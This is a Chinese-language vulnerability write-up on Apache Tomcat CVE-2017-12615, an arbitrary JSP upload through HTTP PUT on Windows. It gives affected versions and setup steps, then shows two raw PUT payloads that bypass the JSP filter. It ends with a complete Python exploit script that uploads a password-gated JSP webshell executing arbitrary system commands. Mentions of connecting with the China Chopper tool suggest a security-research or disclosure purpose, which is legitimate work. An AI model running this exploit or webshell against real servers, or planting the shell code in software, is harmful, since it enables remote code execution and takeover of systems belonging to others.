





*Author:bingo@猎户实验室、 浮萍@猎户实验室*


**1. 漏洞花絮**

       2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，漏洞CVE编号:CVE-2017-12615和CVE-2017-12616,其中 **远程代码执行漏洞（CVE-2017-12615）**    影响： Apache Tomcat 7.0.0 - 7.0.79（7.0.81修复不完全）

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被服务器执行。


**2. 基本信息**

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows

影响版本：Apache Tomcat 7.0.0 - 7.0.81


**3. 测试过程**

0x00 安装Tomcat 7.0.79



**0x01 开启HTTP PUT**

修改Tomcat 7.0/conf/web.xml文件

添加readonly属性，使者readonly=false.

重启tomcat


**0x02 任意文件上传 · 姿势一**

思路：参考微软MSDN上关于NTFS Streams的一段资料https://msdn.microsoft.com/en-us/library/dn393272.aspx

```
`All files on an NTFS volume consist of at least one stream - the main stream – this is the normal, viewable file in which data is stored. The full name of a stream is of the form below.<filename>:<stream name>:<stream type>The default data stream has no name. That is, the fully qualified name for the default stream for a file called "sample.txt" is "sample.txt::$DATA" since "sample.txt" is the name of the file and "$DATA" is the stream type.`
```

payload::

```
`PUT /111.jsp::$DATA HTTP/1.1Host: 10.1.1.6:8080User-Agent: JNTASSDNT: 1Connection: close...jsp shell...`
```

写入成功


**0x03 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）**

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload /

```
`PUT /222.jsp/ HTTP/1.1Host: 10.1.1.6:8080User-Agent: JNTASSDNT: 1Connection: close...jsp shell...`
```



写入成功


**0x04 菜刀连接**




**4. POC参考**

> \#! -*- coding:utf-8 -*- 
>
> import httplib
>
> import sys
>
> import time
>
> body = '''<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
>
> +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>'''
>
> try:
>
>     conn = httplib.HTTPConnection(sys.argv[1])
>
>     conn.request(method='OPTIONS', url='/ffffzz')
>
>     headers = dict(conn.getresponse().getheaders())
>
>     if 'allow' in headers and \
>
>        headers['allow'].find('PUT') > 0 :
>
>         conn.close()
>
>         conn = httplib.HTTPConnection(sys.argv[1])
>
>         url = "/" + str(int(time.time()))+'.jsp/'
>
>         \#url = "/" + str(int(time.time()))+'.jsp::$DATA'
>
>         conn.request( method='PUT', url= url, body=body)
>
>         res = conn.getresponse()
>
>         if res.status  == 201 :
>
>             \#print 'shell:', 'http://' + sys.argv[1] + url[:-7]
>
>             print 'shell:', 'http://' + sys.argv[1] + url[:-1]
>
>         elif res.status == 204 :
>
>             print 'file exists'
>
>         else:
>
>             print 'error'
>
>         conn.close()
>
>     else:
>
>         print 'Server not vulnerable'
>
>         
>
> except Exception,e:
>
>     print 'Error:', e





**5. 参考链接**

NTFS Streams | https://msdn.microsoft.com/en-us/library/dn393272.aspx

http://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.81

[https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw](https://mp.weixin.qq.com/s/dgWT3Cgf1mQs-IYxeID_Mw)

